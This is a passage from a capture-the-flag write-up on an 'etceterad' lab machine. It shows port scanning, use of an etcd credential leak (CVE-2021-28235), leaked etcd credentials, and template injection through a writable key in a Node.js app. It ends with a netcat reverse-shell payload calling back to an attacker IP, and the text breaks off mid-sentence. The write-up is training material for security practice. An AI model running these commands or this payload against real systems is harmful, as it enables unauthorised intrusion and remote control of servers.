 # Write Up on etceterad machine


## Information Gathering And Enumeration
Let's us first start off by firing up `nmap` to discover open ports and running services on our target. <br>

```
mcsam@0x32:~/$ sudo nmap -vvv 10.0.160.122 -p- --min-rate 10000
Nmap scan report for 10.0.160.122
Host is up (0.27s latency).
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
1337/tcp open  waste   syn-ack ttl 63
2379/tcp open  etcd-client syn-ack ttl 63
```

From the above scan we see that there are three services running. Nmap gives us an idea of the services running on the port and from that we can see that `etcd` is running on port `2379`. There's another service running on `1337` and after doing a service scan on it we realized it's a web application and hence can be accessed via the browser.<br>

```
mcsam@0x32:~/$ sudo nmap -sV 10.0.160.122 -p 1337
Starting Nmap 7.80 ( https://nmap.org ) at 2024-10-11 09:25 GMT
Nmap scan report for 10.0.160.122
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  http    Node.js (Express middleware)
```
<br>
Accessing the website from he browser.

![etceterad website](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/1337-website-etcd.png)


After a search for vulnerabilities associated with `etcd` running on `2379` we can find that this version of `etcd` is vulnerable to `CVE-2021-28235`.

PoC for this vulnerability can be found here: https://github.com/lucyxss/etcd-3.4.10-test/blob/master/temp4cj.png

Testing to see if our instance is also vulnerable.
![Vuln PoC](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/debug_poc_2379.png)

Using this vulnerability we care able to view leaked credetials for authenticating to `etcd`.
![Leaked Creds](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/leaked_creds_from_etctd_vuln.png)

To be able to hack `etcd` we must first understand what it is. `etcd` is a distributed key-value store used to store configuration data and coordinate distributed systems. Effectively, `etcd` acts as a database where clients can query data from the server in a distributed environment.

We can interract with `etcd` buy using the client software called `etcdctl`.
First of all we will have to install the tool if it's not available on current attack machine.

After installing it we can now interact with the `etcd`.
We first send a query to get information about out current user.

```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 user get nodejs
User: nodejs
Roles: etsctf
```

From the above query we can see that we have the role `etsctf`. Now we try to see what permissions are available for this role and what we can achieve with it.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 role get etsctf

Role etsctf
KV Read:
	[/home/, /home0) (prefix /home/)
	[/nodejs/, /nodejs0) (prefix /nodejs/)
	ETSCTF
KV Write:
	[/home/, /home0) (prefix /home/)
	[/nodejs/, /nodejs0) (prefix /nodejs/)
```

From the above results users with the role `etsctf` can read and write to the `/home` and `/nodejs` prefixes.

We will attempt to view the keys under the `/nodejs` prefix.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 get --prefix "/nodejs/" --keys-only
/nodejs/index
```

Viewing the value stored in the "/nodejs/index" key.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 get --prefix "/nodejs/index"

/nodejs/index
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <title><% if (typeof title == "undefined") { %>
      EtceteraD
      <% } else { %>
      <%= title %>
      <% }%></title>
      ...
      </body>
</html>
```

From the content of the `/nodejs/index` key we observe and find out that it is the source code for the web site we saw earlier running on port `1337`. Furthermore, we can also see that the source code does some server side rendering and hence may be vulnerable to SSTI. From our initial Nmap scan, nmap reported that the service running on port `1337` was powered by Node.js (Express middleware). This can guide us to know the kind of code to execute inorder to obtain RCE.

Testing our theory.
Since we have write access to `/nodejs/index` key we will write our own content to verify if we can obtain code exeuction. Payload: `Bingo: <%= 7*7 %>`
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 put "/nodejs/index" "Bingo: <%= 7*7 %>" 
OK
```
We reload the web app on port `1337` and bingo!!! <br>
![Leaked Creds](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/ssti_1337_poc.png)

After a number of google searches we find a payload that can help us execute code on the target. We can leverage this to spawn a reverse shell on the target.
`<%= process.mainModule.require('child_process').execSync('nc 10.10.1.126 8989 -e /bin/bash') %>`

To be able to obtain code execution we will have to write